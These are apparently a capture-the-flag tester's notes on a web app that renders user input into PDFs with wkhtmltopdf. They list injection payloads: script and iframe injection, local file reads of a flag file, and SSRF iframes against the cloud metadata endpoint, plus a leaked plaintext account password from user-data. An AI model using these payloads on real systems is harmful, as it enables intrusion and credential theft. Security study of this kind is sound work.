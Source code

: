 # Certificate Template

- Accepts user input and renders into PDF
- Server: Werkzeug/2.0.1 Python/3.8.10
- PDF generator: wkhtmltopdf
- NOTE: HTTPS requests don't work, but HTTP is fine

## Questions
- Can we get runtime code executed? Yes
  - Can we make external API calls? YES, only to non-https and only GETs it seems.
- Does LFI work? Using file:///etc/passwd doesn't seem to
    This makes me think that there may be another way to get LFI
- Can we find interesting information with SSRF?
    kkkkk

## PoCs

**Injection**
`lastname=TPurp&number=5&name=<h1>hi</h1>`

**Local Filepath**
`lastname=TPurp&number=5&name=<script>document.write(document.location)</script>`
File is at /tmp/wktemp-:uuid.html

**Iframe**
`lastname=TPurp&number=5&name=<iframe src=""></iframe>`
`lastname=TPurp&number=5&name=<iframe src="file:///chal/sec9et_fl46.txt"></iframe>`

**Script Execution**
`lastname=TPurp&number=5&name=<script>document.write(123)</script>`

**SSRF**
`lastname=TPurp&number=5&name=<iframe src="http://169.254.169.254/latest/meta-data/" height="200" width="400"></iframe>`

**Password leak?**
`lastname=TPurp&number=5&name=<iframe src="http://169.254.169.254/latest/user-data" height="3000" width="500"></iframe>`
Returns data with:
```
chpasswd:
  list: |
    debian: QdQqBeM6rcQv
```
